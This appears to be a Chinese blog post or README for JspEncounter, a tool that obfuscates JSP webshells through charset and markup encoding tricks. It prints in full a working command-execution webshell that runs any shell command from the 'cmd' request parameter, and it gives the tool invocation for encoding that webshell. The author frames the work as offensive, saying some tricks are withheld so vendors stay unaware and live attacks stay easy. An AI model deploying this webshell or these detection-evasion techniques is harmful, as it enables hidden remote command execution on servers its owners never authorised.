# JSP下的白魔法：JspEncounter

@许纬地 @turn1tup

## 前言

​		这几天看到的以前整活的一些有趣的JSP编码手法被补天的分享会提及到，想到有大佬与前些年的笔者一样，发现了这个手法，然后也一样不吝啬分享出来，不免与有荣焉。

​		竟然如此，笔者索性抽出咸鱼时间编写了一个小工具，帮助广大同学们学习该手法，而对应的原理实在枯燥乏味，就算笔者了然，但这最好还是给有心之人可自行查看吧，本文爽就完事了。

​		接下来直接阐述工具相应的矩阵手法及使用效果，而工具使用的注意项及等信息则请在github查看 ：

​		https://github.com/turn1tup/JspEncounter

## 矩阵手法

被工具转换前的原始source.jsp文件内容为：

```jsp
<%@page import="java.util.*,java.io.*" contentType="text/html" %>
<%! class Test{} %>
<%

    if (request.getParameter ("cmd") != null) {
        boolean isWin = System.getProperty("os.name").toUpperCase().contains("WIN");
        String[] cmd = {isWin?"cmd":"/bin/bash",isWin?"/c":"-c",request.getParameter("cmd")};
        InputStream inputStream = Runtime.getRuntime().exec(cmd).getInputStream();
        OutputStream outputStream = response.getOutputStream();
        int a;
        outputStream.write(String.valueOf(System.currentTimeMillis()).getBytes());
        while((a=inputStream.read())!=-1){
            outputStream.write(a);
        }
    }

%>
```

工具命令为：

```
java  "-Dfile.encoding=utf-8" -jar JspEncounter.jar -m jsp -c matrix.xlsx -s source.jsp -o result.jsp
```


### magic charset

我们打开 `matrix.xlsx`进行配置，这里配置输出单种字符集文件：



执行命令后，输出的编码后的文件:



### declare charset



demo（放前后都可）:


### double chraset

双重字符集，这里以前文UTF-16BE 后文CP037为例：






### controller space

xml 1.1版本下，将标签内的左右括号进行对应的字符替换，该模式目前支持的字符集为utf-8/iso-8859-1/utf-16：


UTF-8字符集情况下：



ISO-8859-1情况下的特殊空白字符：



### unicode & entity

这里使用双重编码对标签内的代码进行编码，即使用 unicode + html entity：







### ext tags

将代码拼接到 setProperty/useBean标签的属性中 ，该手法参考补天会议：




### namespace






## 结语

​		通过本工具我们可以便捷地了解JSP中的这些编码手法，各手法的组合需要他们的逻辑不冲突，而某些手法组合的代码实现比较麻烦，笔者就暂先没有整，大家可自行探索。当然，笔者也稍微藏了一手，毕竟如果厂商都明白了，那我们实战起来也就不那么痛快了，但如果你能真正弄懂这个矩阵中的手法，相信也能发现其他手法。而相对整个webshell的混淆知识的图谱来说，本文也只是一角。

## Reference

https://www.anquanke.com/post/id/210630

https://www.anquanke.com/post/id/209826

`extTag setProperty/useBean拼接代码手法` 参考补天2022 webshell黑魔法


